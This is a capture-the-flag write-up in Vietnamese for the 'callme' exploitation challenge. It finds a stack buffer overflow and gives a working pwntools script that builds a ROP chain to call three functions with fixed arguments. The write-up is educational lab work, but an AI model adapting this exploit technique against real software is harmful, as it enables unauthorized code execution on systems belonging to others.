








**1. Tìm lỗi**

Chạy thử chương trình ta có:



Chương trình cho phép nhập một chuỗi và kết thúc ngay sau đó

Dùng lệnh checksec kiểm tra:



Ta thấy canary đang ở trạng thái disabled nên có thể khai thác qua lỗi bof

Dùng lệnh file kiểm tra



Ta thấy là file elf64 nên mở bằng IDA64 ta được hàm main như sau: 



Hàm pwnme: 



Ta thấy biến s được khai báo 32 byte nhưng cho phép đọc 512 byte -> Có lỗi bof

Hàm usefulFunction:



Đọc mã assembly của hàm callme_one, callme_two, callme_three thì thấy chèn các giá trị 0xdeadbeefdeadbeef, 0xcafebabecafebabe, 0xd00df00dd00df00d vào 3 hàm trên thì sẽ đọc các file cần thiết đề có giá trị flag

**2. Ý tưởng**

Nhập tràn biến s đến ret rồi gọi theo thứ tự các hàm callme_one, callme_two, callme_three với các giá trị tương ứng đã nêu ở trên

Để truyền các giá trị vào các hàm trên thì chúng ta cần truyền các giá trị trên vào các thanh ghi rdi, rsi, rdx nên chúng ta cần phải pop các thanh ghi kia ra

Thứ tự payload:
 - 40 byte để tràn đến ret
 - Địa chỉ câu lệnh pop rdi, rsi, rdx
 - Truyền các địa chỉ tương ứng vào
 - địa chỉ lệnh callme_one
 - tương tự với callme_two và callme_three



Ta thấy địa chỉ 0x000000000040093c đã pop luôn cả 3 thanh ghi cần thiết ra

**3. Viết script**



Khoảng cách từ s đến ret là: 0x20 + 0x8 = 40

Ta có script như sau:

```
from pwn import *

r = process("./callme")
pop = 0x000000000040093c
arg1 = 0xdeadbeefdeadbeef
arg2 = 0xcafebabecafebabe
arg3 = 0xd00df00dd00df00d
callme_one = 0x7ffff7dc581a
callme_two = 0x7ffff7dc592b
callme_three = 0x7ffff7dc5a2d

payload = b'a'*40
payload += p64(pop)
payload += p64(arg1) + p64(arg2) + p64(arg3)
payload += p64(callme_one)
payload += p64(pop)
payload += p64(arg1) + p64(arg2) + p64(arg3)
payload += p64(callme_two)
payload += p64(pop)
payload += p64(arg1) + p64(arg2) + p64(arg3)
payload += p64(callme_three)

r.sendafter('> ', payload)

r.interactive()
```
